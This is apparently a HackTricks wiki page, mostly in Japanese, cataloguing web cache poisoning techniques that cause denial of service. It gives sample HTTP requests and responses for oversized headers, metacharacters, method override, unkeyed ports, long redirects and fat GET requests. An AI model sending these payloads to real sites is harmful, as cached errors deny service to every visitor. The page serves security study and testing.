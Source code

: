 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
このページでは、**キャッシュサーバーに対して有効なリクエスト**に対して**ウェブサーバーがエラーで応答する**ように試みるさまざまなバリエーションを見つけることができます。
{% endhint %}

* **HTTP Header Oversize (HHO)**

ウェブサーバーがサポートするサイズより大きく、キャッシュサーバーがサポートするサイズより小さいヘッダーサイズでリクエストを送信します。ウェブサーバーは400レスポンスで応答し、これはキャッシュされる可能性があります。
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTPメタキャラクター (HMC) と予期しない値**

**有害なメタキャラクター**を含むヘッダーを送信します。攻撃が機能するためには、まずキャッシュをバイパスする必要があります。
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:  
悪く構成されたヘッダーは、ヘッダーとして単に `\:` である可能性があります。

予期しない値が送信される場合、例えば予期しない Content-Type: のような場合にも機能する可能性があります。
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

一部のウェブサイトは、_X-Amz-Website-Location-Redirect: someThing_ ヘッダーのように、リクエスト内の特定のヘッダーを**見ると**エラーステータスコードを返します。
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTPメソッドオーバーライド攻撃 (HMO)**

サーバーが `X-HTTP-Method-Override`、`X-HTTP-Method`、または `X-Method-Override` のようなヘッダーでHTTPメソッドを変更することをサポートしている場合、メソッドを変更して有効なページをリクエストすることが可能です。これにより、サーバーがそれをサポートしないため、不正なレスポンスがキャッシュされます：
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **アンキー ポート**

Host ヘッダーのポートがレスポンスに反映され、キャッシュキーに含まれていない場合、未使用のポートにリダイレクトすることが可能です:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **ロングリダイレクトDoS**

次の例のように、xはキャッシュされていないため、攻撃者はリダイレクト応答の動作を悪用して、リダイレクトが非常に大きなURLを送信するようにし、エラーを返すことができます。その後、キャッシュされていないxキーなしでURLにアクセスしようとする人々は、エラー応答を受け取ります：
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **ホストヘッダーのケース正規化**

ホストヘッダーは大文字と小文字を区別しないはずですが、一部のウェブサイトは小文字であることを期待しており、そうでない場合はエラーを返します:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **パスの正規化**

一部のページは、パスにデータをURLエンコードして送信するとエラーコードを返しますが、キャッシュサーバーはパスをURLデコードし、URLデコードされたパスのレスポンスを保存します。
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

一部のキャッシュサーバー（Cloudflareなど）やウェブサーバーは、ボディを持つGETリクエストを停止するため、無効なレスポンスをキャッシュするために悪用される可能性があります：
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## 参考文献

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

